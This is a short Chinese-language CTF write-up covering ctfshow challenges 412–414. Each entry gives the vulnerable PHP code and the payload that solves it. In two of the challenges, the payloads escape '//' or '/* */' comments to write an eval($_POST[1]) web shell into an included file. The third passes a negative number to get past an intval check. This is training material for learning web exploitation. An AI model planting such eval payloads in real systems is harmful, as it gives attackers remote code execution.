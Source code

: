 

## 412-注释符//绕过

```php
if(isset($ctfshow)){
    file_put_contents('flag.php', '//'.$ctfshow,FILE_APPEND);
    include('flag.php');
}
```

> FILE_APPEND：如果文件 filename 已经存在，追加数据而不是覆盖。

可以把传入的东西写进去，但有注释符`//`，`换行%0a`或者用`?>`闭合

```
ctfshow=%0aeval($_POST[1]);?>
ctfshow=?><?=eval($_POST[1]);?>
```



## 413-注释符/**/绕过

```php
if(isset($ctfshow)){
        file_put_contents('flag.php', '/*'.$ctfshow.'*/',FILE_APPEND);
    include('flag.php');
}
```

直接闭合他们就好了

```
ctfshow=*/eval($_POST[1]);/*
```



## 414-intaval

```php
if($ctfshow==true){
    if(sqrt($ctfshow)>=sqrt(intval($flag))){
        echo 'FLAG_NOT_HERE';
    }else{
        echo $flag;
    }
}
```

intval()字符串的值是0

要小于它，取负数就好

```
?ctfshow=-1
```
